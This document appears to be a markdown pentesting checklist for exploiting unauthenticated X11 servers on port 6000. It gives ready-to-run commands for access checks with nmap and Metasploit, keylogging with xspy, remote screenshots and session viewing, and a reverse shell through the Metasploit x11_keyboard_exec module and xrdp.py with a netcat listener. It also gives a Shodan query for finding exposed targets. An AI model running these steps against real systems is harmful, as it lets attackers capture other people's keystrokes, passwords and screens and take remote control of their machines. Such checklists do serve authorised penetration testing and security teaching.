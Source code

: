 # X11 Pentesting Checklist & Commands

## 🎯 What am I realistically expecting to find here?

⭐ After enumerating X11 (port 6000), I realistically expect to find:

- [ ] Unauthenticated access to the X server
- [ ] Ability to view GUI sessions remotely
- [ ] Ability to capture keystrokes (keylogging)
- [ ] Screenshot or screen capture capabilities
- [ ] Possibility of executing commands through keyboard injection
- [ ] Potential reverse shell via X server abuse

---

## ✅ X11 Pentest Checklist

- [ ] **Banner Grabbing & Access Check**
  - Test for anonymous connection.
    ```
    nmap -sV --script x11-access -p6000 <IP>
    msf> use auxiliary/scanner/x11/open_x11
    ```

---

- [ ] **Verify Connection**
  - Check display information.
    ```
    xdpyinfo -display <IP>:0
    xwininfo -root -tree -display <IP>:0
    ```

---

- [ ] **Keylogging**
  - Capture keystrokes using xspy.
    ```
    xspy <IP>
    ```
  - Sample output:
    ```
    swaBackSpaceCaps_Lock userTabpassword
    ```

---

- [ ] **Screenshot Capture**
  - Grab a screenshot of the target display.
    ```
    xwd -root -screen -silent -display <IP>:0 > screenshot.xwd
    convert screenshot.xwd screenshot.png
    ```

---

- [ ] **Remote Desktop View**
  - Use xrdp.py to get a remote session view.
    ```
    ./xrdp.py <IP>:0
    ```
  - Alternative method with window ID:
    ```
    xwininfo -root -display <IP>:0
    ./xwatchwin <IP>:0 -w <windowID>
    ```

---

- [ ] **Get Reverse Shell**
  - Metasploit module for keyboard injection shell.
    ```
    msf> use exploit/unix/x11/x11_keyboard_exec
    ```
  - Reverse shell via xrdp.py:
    ```
    ./xrdp.py <IP>:0 --no-disp
    ```
    - Start Netcat listener:
      ```
      nc -lvnp 5555
      ```

---

## ✅ Shodan Search

- [ ] Discover exposed X11 servers.
    ```
    port:6000 x11
    ```

---

## ✅ References

- [Exploiting X11 Unauthenticated Access](https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref)
- [Bitvijays LFF-IPS-P2](https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html)
